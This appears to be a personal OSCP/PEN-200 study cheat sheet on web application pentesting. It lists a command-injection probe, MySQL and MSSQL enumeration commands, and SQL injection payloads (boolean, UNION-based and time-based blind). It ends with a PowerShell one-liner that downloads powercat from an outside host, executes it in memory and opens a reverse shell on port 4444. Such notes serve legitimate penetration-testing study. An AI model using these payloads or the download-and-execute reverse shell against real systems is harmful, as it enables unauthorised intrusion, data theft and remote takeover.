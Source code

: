 # OSCP-Notes
Cheatsheet/Notes from PEN-200 Learning Platform for the OSCP Exam
Web App Pentest
  D
    Command Injection
      Check if CMD or PowerShell we have:
        (dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
      PowerCat for Reverse shell. first copy to local dir: 
        cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .


  SQLi
    MySQL:
      connect to mysql remotely:
        mysql -u <user> -h <ip> -P 3306 -p;
      commands after connection:
        show databases;
        select version();
        show tables in mysql;
        select * from mysql.user;
        select * from mysql.user where user = 'username';
    MSSQL:
      connect:
        impacket-mssqlclient <user>:<pass>@<ip> -windows-auth
      commnads:
        select @@version;
        select name from sys.databases;
        select * from <db_name>.information_schema.tables;
        select * from master.dbo.sysusers;

    Injections: 
      offsec' OR 1=1 -- //
      if above successful:
            ' or 1=1 in (select @@version) -- //
    UNION injections:
      first get number of columns (increase number by 1):
        ' ORDER BY 1-- //
        ' UNION SELECT null, null, database(), user(), @@version  -- //
        ' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
    Time Based Blind SQL:
      ' AND IF (1=1, sleep(3),'false') -- //



Download and execute in PowerShell:
  IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell 
